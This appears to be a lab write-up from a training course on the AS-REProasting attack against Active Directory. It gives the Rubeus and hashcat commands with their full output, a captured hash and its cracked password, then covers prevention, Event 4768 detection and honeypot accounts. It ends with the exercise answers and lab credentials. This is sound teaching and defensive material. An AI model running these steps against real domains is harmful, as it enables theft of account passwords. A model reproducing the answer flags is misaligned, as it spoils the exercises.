






import RevealFlag from '@site/src/components/RevealFlag';

# AS-REProasting

## Description

The `AS-REProasting` attack is similar to the `Kerberoasting` attack; we can obtain crackable hashes for user accounts that have the property `Do not require Kerberos preauthentication` enabled. The success of this attack depends on the strength of the user account password that we will crack.

---

## Attack

To obtain **crackable hashes**, we can use `Rubeus` again. However, this time, we will use the `asreproast` action. If we don't specify a name, `Rubeus` will extract **hashes for each user that has** `Kerberos preauthentication` **not required**:

```powershell
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:asrep.txt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC2.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC2.eagle.local (172.16.18.4)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Downloads\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Downloads\asrep.txt
```



Once `Rubeus` **obtains the hash** for the user `Anni` *(the only one in the playground environment with preauthentication not required)*, we will move the output text file to a linux attacking machine.

For `hashcat` to be able **to recognize the hash**, we need to edit it by adding `23$` after `$krb5asrep$`:

```txt
$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550
```

We can now use `hashcat` with the hash-mode (option `-m`) `18200` for `AS-REPRoastable hashes`. We also pass a dictionary file with passwords *(the file `passwords.txt`)* and save the output of any successfully cracked tickets to the file `asrepcracked.txt`:

```bash
trustinveritas@htb[/htb]$ sudo hashcat -m 18200 -a 0 asrep.txt passwords.txt --outfile asrepcrack.txt --force

hashcat (v6.2.5) starting

<SNIP>

Dictionary cache hit:
* Filename..: passwords.txt
* Passwords.: 10002
* Bytes.....: 76525
* Keyspace..: 10002
* Runtime...: 0 secs

Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$anni@eagle.local:1b912b858c4551c0013d...3d2550
Time.Started.....: Thu Dec 8 06:08:47 2022, (0 secs)
Time.Estimated...: Thu Dec 8 06:08:47 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   130.2 kH/s (0.65ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 10002/10002 (100.00%)
Rejected.........: 0/10002 (0.00%)
Restore.Point....: 9216/10002 (92.14%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 20041985 -> brady
Hardware.Mon.#1..: Util: 26%

Started: Thu Dec 8 06:08:11 2022
Stopped: Thu Dec 8 06:08:49 2022
```



Once `hashcat` cracks the password, we can print the contents of the output file to obtain the cleartext password `Slavi123`:

```bash
trustinveritas@htb[/htb]$ sudo cat asrepcrack.txt

$krb5asrep$23$anni@eagle.local:1b912b858c4551c0013dbe81ff0f01d7$c64803358a43d05383e9e01374e8f2b2c92f9d6c669cdc4a1b9c1ed684c7857c965b8e44a285bc0e2f1bc248159aa7448494de4c1f997382518278e375a7a4960153e13dae1cd28d05b7f2377a038062f8e751c1621828b100417f50ce617278747d9af35581e38c381bb0a3ff246912def5dd2d53f875f0a64c46349fdf3d7ed0d8ff5a08f2b78d83a97865a3ea2f873be57f13b4016331eef74e827a17846cb49ccf982e31460ab25c017fd44d46cd8f545db00b6578150a4c59150fbec18f0a2472b18c5123c34e661cc8b52dfee9c93dd86e0afa66524994b04c5456c1e71ccbd2183ba0c43d2550:Slavi123
```



---

## Prevention

As mentioned before, the **success of this attack depends on the strength of the password of users** with `Do not require Kerberos preauthentication` configured.

First and foremost, **we should only use this property if needed**; a good practice is to `review accounts quarterly` to ensure that we have **not assigned this property**. Because **this property is often found** with some **regular user accounts**, they tend to have `easier-to-crack passwords than service accounts with SPNs` *(those from Kerberoast)*. Therefore, **for users requiring this configured**, we should `assign a separate password policy`, which **requires at least 20 characters** to thwart cracking attempts.

---

## Detection

When we executed Rubeus, an [Event with ID 4768](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventID=4768) was generated, `signaling that a Kerberos Authentication ticket` was generated:



The caveat is that **AD generates this event for every user that authenticates with Kerberos to any device**; therefore, the presence of this event is very abundant. However, it is possible to know where the user authenticated from, which we can then use to `correlate known good logins against potential malicious hash extractions`. It may be hard to inspect **specific IP addresses**, especially if a **user moves around office locations**. However, it is possible to scrutinize the particular `VLAN` and **alert on anything outside it**.

---

## Honeypot 🍯

For this attack, a `honeypot user` is an excellent detection option to configure in AD environments; this must be a user with no real use/need in the environment, such that **no login attempts are performed regularly**. Therefore, any attempt(s) to perform a login for this account is likely malicious and requires inspection.

However, suppose the honeypot user is the only account with `Kerberos Pre-Authentication not required`. In that case, there might be better detection methods, as it would be very obvious for advanced threat actors that it is a honeypot user, resulting in them avoiding interactions with it. *(I did previously hear from an organization that needed one of these accounts (application related) that the `security through obscurity` behind having only one of these accounts may save them, as attackers will avoid going after it thinking it is a honeypot user. While it may be true in some instances, we should not let a glimpse of hope dictate the security state of the environment.)*

To make **a good honeypot user**, we should ensure the following:

- The account must be **a relatively old user**, ideally one that has become bogus (advanced threat actors will not request tickets for new accounts because they likely have strong passwords and the possibility of being a honeypot user).

- For `a service account user`, the **password should ideally be over two years old**. For `regular users`, **maintain the password** so it does not **become older than one year**.

- The **account must have logins after the day the password was changed**; otherwise, it becomes self-evident if the last password change day is the same as the previous login.

- The account must have **some privileges assigned to it**; otherwise, it won't be interesting to try to crack its password's hash.

If we go back to our playground environment and configure the user `svc-iam` *(presumably an old IAM account leftover)* with the recommendations above, then **any request to obtain a** `TGT` **for that account should be alerted on**. The event received would look like this:



--

## Questions

### `1. Connect to the target and perform an AS-REProasting attack. What is the password for the user anni?`

<RevealFlag>{`shadow`}</RevealFlag>

#### Rubeus

```powershell
PS C:\WINDOWS\system32> cd "C:\Users\bob\Downloads\"
PS C:\Users\bob\Downloads> .\Rubeus.exe asreproast /outfile:"C:\Users\bob\Desktop\asrep.txt"

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.1


[*] Action: AS-REP roasting

[*] Target Domain          : eagle.local

[*] Searching path 'LDAP://DC1.eagle.local/DC=eagle,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : anni
[*] DistinguishedName      : CN=anni,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC1.eagle.local (172.16.18.3)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\anni'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Desktop\asrep.txt

[*] SamAccountName         : svc-iam
[*] DistinguishedName      : CN=svciam,OU=Detections,OU=EagleUsers,DC=eagle,DC=local
[*] Using domain controller: DC1.eagle.local (172.16.18.3)
[*] Building AS-REQ (w/o preauth) for: 'eagle.local\svc-iam'
[+] AS-REQ w/o preauth successful!
[*] Hash written to C:\Users\bob\Desktop\asrep.txt

[*] Roasted hashes written to : C:\Users\bob\Desktop\asrep.txt
```

#### hashcat

```powershell
PS C:\Tools\hashcat-6.2.6> cd C:\Tools\hashcat-6.2.6
PS C:\Tools\hashcat-6.2.6> .\hashcat.exe -m 18200 -a 0 "C:\Users\trustinveritas\Desktop\asrep.txt" "C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt" --outfile="C:\Users\trustinveritas\Desktop\asrepcrack.txt" --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 WINDOWS) - Platform #1 [Intel(R) Corporation]
====================================================================
* Device #1: 12th Gen Intel(R) Core(TM) i9-12900H, 8159/16382 MB (4095 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 2 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt
* Passwords.: 5189454
* Bytes.....: 48312893
* Keyspace..: 5189454


Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: C:\Users\trustinveritas\Desktop\asrep.txt
Time.Started.....: Tue Apr 22 22:23:23 2025, (0 secs)
Time.Estimated...: Tue Apr 22 22:23:23 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (C:\Tools\SecLists\SecLists-2025.1\Passwords\xato-net-10-million-passwords.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1994.0 kH/s (2.13ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests (total), 2/2 (100.00%) Digests (new), 2/2 (100.00%) Salts
Progress.........: 12288/10378908 (0.12%)
Rejected.........: 0/12288 (0.00%)
Restore.Point....: 0/5189454 (0.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> 7894561230

Started: Tue Apr 22 22:22:58 2025
Stopped: Tue Apr 22 22:23:25 2025
```

---

### `2. After performing the AS-REProasting attack, connect to DC1 (172.16.18.3) as 'htb-student:HTB_@cademy_stdnt!' and look at the logs in Event Viewer. What is the TargetSid of the svc-iam user?`

<RevealFlag>{`S-1-5-21-1518138621-4282902758-752445584-3103`}</RevealFlag>

